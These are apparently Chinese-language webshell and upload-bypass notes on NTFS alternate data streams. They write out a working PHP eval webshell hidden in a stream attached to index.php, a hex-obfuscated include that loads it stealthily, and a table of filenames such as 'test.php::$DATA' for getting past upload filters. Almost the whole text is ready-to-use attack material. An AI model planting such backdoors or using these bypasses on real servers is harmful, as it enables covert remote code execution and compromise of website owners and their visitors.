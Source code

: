 	指定宿主文件，index.php是网页正常文件
	>echo ^<?php @eval($_POST['chopper']);?^> > index.php:hidden.jpg
	<?php include(‘index.php:hidden.jpg’)?>
	<?php 
	$a="696E6465782E7068703"."A68696464656E2E6A7067";#hex编码
	$b="a";
	include(PACK('H*',$$b))
	?>
	>echo 9527 > 1.txt:flag.txt
	>notepad 1.txt:flag.txt
	或不指定宿主文件
	>echo hide > :key.txt
	>cd ../
	>notepad test:key.txt
	上传处绕过
|上传的文件名   |服务器表面现象   |生成的文件内容   |
| ------------ | ------------ | ------------ |
|test.php:a.jpg   |生成test.php   |空   |
|test.php::$DATA   | 生成test.php  |<?php phpinfo();?>   |
|test.php::$INDEX_ALLOCATION   |生成test.php文件夹   |\   |
|test.php::$DATA\0.jpg   |生成0.jpg   |<?php phpinfo();?>   |